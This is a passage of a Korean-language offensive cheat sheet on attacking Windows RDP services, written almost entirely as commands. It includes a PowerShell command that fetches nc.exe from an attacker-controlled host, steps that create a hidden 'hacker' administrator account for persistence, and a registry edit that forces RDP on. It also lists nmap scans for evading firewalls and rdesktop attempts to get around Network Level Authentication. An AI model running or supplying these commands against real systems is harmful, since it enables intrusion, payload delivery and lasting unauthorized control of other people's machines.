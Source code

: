 ### 💾 파일 전송 및 지속성

```bash
# RDP를 통한 파일 전송 (클립보드 활용)
# 연결시 +clipboard 옵션 사용
xfreerdp /u:administrator /p:password /v:{IP} +clipboard

# 드라이브 공유 활용
xfreerdp /u:administrator /p:password /v:{IP} +drives

# PowerShell을 통한 파일 다운로드 (RDP 세션 내)
powershell -c "Invoke-WebRequest -Uri 'http://{ATTACKER_IP}/nc.exe' -OutFile 'C:\temp\nc.exe'"

# 지속적 접근을 위한 사용자 추가
net user hacker Password123! /add
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add

# RDP 서비스 활성화 (비활성화된 경우)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

---

## 🚨 문제 해결

### 🚫 RDP 연결 거부시

```bash
# 다른 RDP 포트 확인
nmap -p 3389,3390,33389,33890 {IP}

# RDP 서비스 상태 확인
nmap --script rdp-enum-encryption -p 3389 {IP}

# 방화벽 우회 시도
nmap -sS -p 3389 {IP}
nmap -sA -p 3389 {IP}

# 다른 원격 접속 서비스 확인
nmap -p 5985,5986 {IP}  # WinRM
nmap -p 22 {IP}         # SSH (Windows OpenSSH)
```

### 🔒 NLA(Network Level Authentication) 활성화시

```bash
# CredSSP 지원 클라이언트 사용
xfreerdp /u:administrator /p:password /v:{IP} /sec:nla

# 다른 인증 방법 시도
rdesktop {IP} -u administrator -p password -5

# NLA 우회 시도 (오래된 클라이언트)
rdesktop {IP} -u administrator -p password -4

# 크레덴셜이 확실한 경우만 시도 (NLA는 유효한 크레덴셜 필요)
```
